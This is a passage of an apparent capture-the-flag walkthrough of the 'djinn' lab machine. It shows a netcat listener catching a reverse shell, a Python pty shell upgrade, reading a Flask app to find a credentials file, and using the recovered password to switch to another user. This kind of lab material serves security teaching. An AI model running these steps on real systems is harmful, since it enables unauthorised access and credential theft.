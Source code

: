 lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.211.146] from (UNKNOWN) [192.168.211.145] 43218

bash: cannot set terminal process group (719): Inappropriate ioctl for device

bash: no job control in this shell

www-data\@djinn:/opt/80\$ python -c "import pty; pty.spawn('/bin/bash')"

python -c "import pty; pty.spawn('/bin/bash')"

www-data\@djinn:/opt/80\$ echo \$HOSTNAME

echo \$HOSTNAME

djinn

### Discovering Possible Credentials

www-data\@djinn:/opt/80\$ ls

ls

app.py app.pyc static templates

www-data\@djinn:/opt/80\$ cat app.py

cat app.py

import subprocess

from flask import Flask, redirect, render_template, request, url_for

app = Flask(__name__)

app.secret_key = "key"

CREDS = "/home/nitish/.dev/creds.txt"

www-data\@djinn:/opt/80\$ cat /home/nitish/.dev/creds.txt

cat /home/nitish/.dev/creds.txt

nitish:p4ssw0rdStr3r0n9

Switching to nitish user and obtaining user flag.

www-data\@djinn:/opt/80\$ su nitish

su nitish

Password: p4ssw0rdStr3r0n9

nitish\@djinn:/opt/80\$ cd /home/nitish

cd /home/nitish

nitish\@djinn:\~\$ ls

ls

user.txt

